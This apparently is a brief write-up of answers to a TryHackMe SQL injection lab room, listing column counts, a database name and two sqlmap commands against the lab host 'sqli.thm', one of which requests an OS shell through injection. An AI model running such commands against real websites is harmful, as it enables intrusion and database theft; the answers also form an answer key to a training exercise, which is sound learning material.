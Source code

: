 # TryHackMe SQL Injection

> Saikat Karmakar | AUG 18 : 2021

---

## Task 7

1. How many columns are being returned by the query?
```
5
```
2. How many of these columns can accept strings? ('a')
```
5 
```
3. What's the database name?
```
sqlitraining
```

## Task 8

1.  How would you get an OS shell on website "sqli.thm/login.php"? (URL switch comes first)
```
sqlmap -u "sqli.thm/login.php" --os-shell
```
2. What about listing all databases on the same website? (URL switch comes first)
```
sqlmap -u "sqli.thm/login.php" --db
```

